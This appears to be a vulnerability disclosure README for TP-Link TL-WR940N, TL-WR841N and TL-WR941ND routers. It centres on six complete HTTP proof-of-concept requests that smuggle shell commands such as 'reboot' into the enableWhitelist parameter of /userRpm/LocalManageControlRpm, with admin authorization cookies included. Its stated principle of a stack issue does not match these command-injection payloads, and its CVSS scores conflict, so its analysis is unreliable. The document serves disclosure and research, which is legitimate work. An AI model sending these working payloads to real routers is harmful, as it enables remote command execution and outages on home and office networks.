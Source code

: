 # TP-Link TL-WR941ND/TL-WR940N/TL-WR841N wireless router /userRpm/LocalManageControlRpm denial of service vulnerability

## 1 Basic Information

- Vulnerability Type: Denial of Service
- Vulnerability Description: A denial of service vulnerability exists in TP-Link TL-WR940N V2/V4/V6 and TL-WR841N V8/V10、TL-WR941ND V5 wireless router. Its /userRpm/LocalManageControlRpm component has a security vulnerability in processing enableWhitelist GET key parameters, allowing remote attackers to submit special requests through the vulnerability, causing denial of service.
- Device model:
  - TP-Link TL-WR940N V2/V4/V6、TP-Link TL-WR841N V8/V10、TP-Link TL-WR941ND V5

## 2 Vulnerability Value 

- Maturity of Public Information: None

- Order of Public Vulnerability Analysis Report: None

- Stable reproducibility: yes

- Vulnerability Score (refer to CVSS)

  - V2：[7.1 High AV:N/AC:H/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:H/Au:S/C:C/I:C/A:C))
  - V3.1：[8.6 High AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)

- Exploit Conditions

  - Attack Vector Type: Network
  - Attack Complexity: Low
  - Complexity of Exploit
    - Permission Constraints: authentication is required
    - User Interaction: No victim interaction required
  - Scope of Impact: Changed (may affect other components than vulnerable ones)
  - Impact Indicators:
    - Confidentiality: High
    - Integrity: High
    - Availability: High
  - Stability of vulnerability exploitation: Stable recurrence
  - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory

- Exploit Effect
  - Denial of Service

## 3 PoC

The PoC of TP-Link WR940N V4 is as follows:

```http
GET /WGJHXFTBPSHJAMDA/userRpm/LocalManageControlRpm.htm?enableWhitelist=1;CMD=$"reboot";$CMD&mac0=1C-BF-C0-7A-E0-03&mac1=1C-BF-C0-7A-E0-04&mac2=&mac3=&Save=Save HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:8081/WGJHXFTBPSHJAMDA/userRpm/LocalManageControlRpm.htm
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link WR940N V2 is as follows:

```http
GET /WUKQJMSAEYQDMRRC/userRpm/LocalManageControlRpm.htm?enableWhitelist=1|aaa;&mac0=7e-54-76-ee-db-12&mac1=&mac2=&mac3=&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/KMODQNKANSQJBYFA/userRpm/LocalManageControlRpm.htm
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link WR940N V6 is as follows:

```http
GET /IOCGBYQCUCBTYUKA/userRpm/LocalManageControlRpm.htm?enableWhitelist=1;CMD=$'reboot';$CMD&mac0=7e-54-76-ee-db-12&mac1=2A-6A-BC-86-FE-C2&mac2=&mac3=&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/XKZTZRGANXFYRCCA/userRpm/LocalManageControlRpm.htm
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR941ND V5 is as follows:

```http
GET /MZKBGETBOHFWYCNC/userRpm/LocalManageControlRpm.htm?enableWhitelist=1||reboot|&mac0=7e-54-76-ee-db-12&mac1=&mac2=&mac3=&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/YOKQCLEBKGHAVJDB/userRpm/LocalManageControlRpm.htm
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1


```
The PoC of TP-Link TL-WR841N V8 is as follows:

```http
GET /userRpm/LocalManageControlRpm.htm?enableWhitelist=1;CMD=$'reboot';$CMD&mac0=F6-33-2C-E7-94-C3&mac1=&mac2=&mac3=&Save=Save HTTP/1.1
Host: 0.0.0.0:49168
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://0.0.0.0:49168/userRpm/LocalManageControlRpm.htm
Cookie: Authorization=
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR841N V10 is as follows:

```http
GET /BTYXMWXBISLZRVGB/userRpm/LocalManageControlRpm.htm?enableWhitelist=1$(reboot)&mac0=1C-BF-C0-7A-E0-04&mac1=7E-F8-60-02-2E-B8&mac2=&mac3=&Save=Save HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:8081/BMKHACLAYMEWMEQA/userRpm/LocalManageControlRpm.htm
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

## 4 Vulnerability Principle

When the Web management component receives a GET request, its /userRpm/LocalManageControlRpm component has a security vulnerability in processing the enableWhitelist GET key parameter. The enableWhitelist parameter itself is put into the stack without being checked, resulting in a denial of service. An attacker exploits this vulnerability to construct a payload of the enableWhitelist parameter, so that the carefully constructed parameter causes a denial of service. Attackers can directly achieve the effect of denial of service by exploiting this vulnerability.

The firmware simulation process and interface are as follows:

![](./imgs/fat.png)

![](./imgs/before.png)

![](./imgs/web.png)

After sending the constructed PoC, denial of service occurred.

![](./imgs/dos.png)

![](./imgs/dos2.png)

## 5. The basis for judging as a 0-day vulnerability

Searching the LocalManageControlRpm keyword in the NVD database did not find any vulnerabilities; searching the parameter enableWhitelist keyword in the NVD database did not find any vulnerabilities, so it is considered a 0-day vulnerability.